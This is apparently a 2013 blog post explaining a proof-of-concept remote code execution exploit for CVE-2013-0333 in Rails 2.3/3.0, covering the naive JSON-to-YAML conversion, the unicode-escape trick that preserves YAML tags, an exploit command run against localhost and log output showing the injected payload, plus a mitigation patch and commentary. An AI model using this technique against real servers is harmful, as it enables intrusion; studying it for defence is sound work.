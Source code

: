 ```yaml
---
layout: post
title: Rails PoC exploit for CVE-2013-0333
author: postmodern
tags:
 - rails
 - ronin
 - poc
 - exploit
---
```


**TL;DR:** Same YAML [vulnerability][1], different code-path.

* [rails_omakase.rb]

Hot on the heels of [CVE-2013-0156], [CVE-2013-0333] was announced.
A code-path was discovered that allows `text/json` requests to be
translated into and parsed as YAML. This behavior _only_ exists in
Rails 2.3.x and 3.0.x.
 
This exploit uses the same YAML deserialization technique as the previous
[Rails PoC exploit][rails_rce.rb]. Please see the previous [write-up][1] for a
detailed explanation of how to achieve Remote Code Execution (RCE) via
`YAML.load`.

## ActiveSupport::JSON

In Rails 3.0.x, [ActiveSupport::JSON] acts as a proxy to various JSON parsing
libraries. By default Rails 3.0.x provides the [JSONGem], [Yajl] and [Yaml]
backends. [JSONGem] uses the [json] gem, [Yajl] uses the high-performance
[yajl] JSON parser, and [Yaml] attempts to translate JSON into YAML
before passing it to `YAML.load`. Oddly enough, [Yaml] (and not [JSONGem])
is the default JSON backend in Rails 3.0.x:

{% highlight ruby %}
ActiveSupport::JSON.backend
=> ActiveSupport::JSON::Backends::Yaml
{% endhighlight %}

The problem with the [Yaml] backend is that it's [convert_json_to_yaml] method
is incredibly naive. The method uses [StringScanner] to walk through the JSON
string, replacing JSON tokens with their YAML equivalents. The method does not
fully parse the JSON in order to emit proper YAML, nor does it validate that
the input is actually valid JSON. This is our opening.

However, [convert_json_to_yaml] does replace all `:` characters with `: `,
in an attempt to convert JSON Hashes into YAML Hashes. This will corrupt
our YAML tags:

{% highlight ruby %}
yaml = "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml)
# => "--- !ruby/hash: ActionController: : Routing: : RouteSet: : NamedRouteCollection"
{% endhighlight %}

Luckily, [convert_json_to_yaml] also parses JSON unicode-escaped characters:

{% highlight ruby %}
ActiveSupport::JSON::Backends::Yaml.send(:convert_json_to_yaml,yaml.gsub(':','\u003a'))
# => "--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection"
{% endhighlight %}

Now to get the YAML payload from [rails_rce.rb] executing. The `module_eval`ed
code in [ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access][define_hash_access 3.0.x]
was similar to that of Rails 2.8.x, and was changed in [Rails 3.1.x][define_hash_access 3.1.x].
Due to this difference, we simply reused the Rails 2.x payload from the
[rails_rce.rb] exploit.

After some minor modifications to [rails_rce.rb] we had a working exploit:

{% highlight shell %}
$ rails_omakase http://localhost:3000/secrets "puts 'lol'"
{% endhighlight %}

    lol
    
    Started POST "/secrets" for 127.0.0.1 at 2013-01-28 18:53:18 -0800
      Processing by SecretsController#show as 
      Parameters: {"_json"=>#<ActionDispatch::Routing::RouteSet::NamedRouteCollection:0x00000002221080 @routes={:"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n"=>#<struct defaults={:action=>"create", :controller=>"foos"}, required_parts=[], requirements={:action=>"create", :controller=>"foos"}, segment_keys=[:format]>}, @helpers=[:"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_url", :"hash_for_foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path", :"foo\nend\n(puts 'lol'; @executed = true) unless @executed\n__END__\n_path"], @module=#<Module:0x00000002220fb8>>}
    Rendered text template (0.0ms)
    Completed 200 OK in 2ms (Views: 1.4ms | ActiveRecord: 0.0ms)

## Again?

When Rails was updated for [CVE-2013-0156], it did not actually fix the
underlying root cause, that the [Psych][psych] YAML parser
[does not have a safe-mode][5]. As long as developers continue allowing
user-input near `YAML.load`, and there is no safe-mode to prevent YAML from
deserializing arbitrary Classes, YAML deserialization vulnerabilities will
continue to pop up.

**Update:** [@nelhage] has written a [monkey-patch][6] for YAML,
that prevents any non-primitive objects from being deserialized. I have tested
this workaround against [rails_omakase.rb] on Ruby 1.9.3-p362 and Rails 3.0.19,
and can confirm it prevents the exploit from working. However, once loaded
it effects all `YAML.load` calls and cannot be disabled.

## Omakase?

I named this exploit [rails_omakase.rb], as an ode to [Rails Is Omakase][2];
I highly recommend the [dramatic reading][3]. In the blog post,
David Heinemeier Hansson (DHH) discusses the criticism Rails Core has received
over their changes to default settings. His main complaint is that merely
complaining about the changes, and not contributing code, does not improve the 
development process of Rails.

This vulnerability was the result of [changing the default JSON backend][4] from
[JSONGem] to [Yaml]. Additionally, it is unclear why anyone would ever
consider attempting to convert JSON into YAML, without fully parsing it first.
Like wise, [CVE-2013-0156] is equally perplexing, who could possibly think any
good would come from embedding YAML in XML?

Despite DHH's reassurance that Rails Core has the best of intentions when they
change default settings, they can and do make mistakes.

[CVE-2013-0156]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/61bkgvnSGTQ
[CVE-2013-0333]: https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/1h2DR63ViGo

[rails_omakase.rb]: https://gist.github.com/4660248
[rails_rce.rb]: https://gist.github.com/4499206

[json]: http://flori.github.com/json/
[yajl]: http://lloyd.github.com/yajl/
[psych]: https://github.com/tenderlove/psych

[StringScanner]: http://rubydoc.info/stdlib/strscan/StringScanner
[ActiveSupport::JSON]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/decoding.rb
[JSONGem]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/jsongem.rb
[Yajl]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yajl.rb
[Yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb
[convert_json_to_yaml]: https://github.com/rails/rails/blob/v3.0.19/activesupport/lib/active_support/json/backends/yaml.rb#L29-L96
[define_hash_access 3.0.x]: https://github.com/rails/rails/blob/v3.0.19/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171
[define_hash_access 3.1.x]: https://github.com/rails/rails/blob/v3.1.0/actionpack/lib/action_dispatch/routing/route_set.rb#L166-L171

[1]: http://ronin-ruby.github.com/blog/2013/01/09/rails-pocs.html
[2]: http://david.heinemeierhansson.com/2012/rails-is-omakase.html
[3]: http://gilesbowkett.blogspot.com/2013/01/a-dramatic-reading-of-rails-is-omakase.html
[4]: https://github.com/rails/rails/commit/a87683fb38d6cf66f39a7bd3faa6c969c63b1f46
[5]: https://github.com/tenderlove/psych/issues/119
[6]: https://gist.github.com/4659489
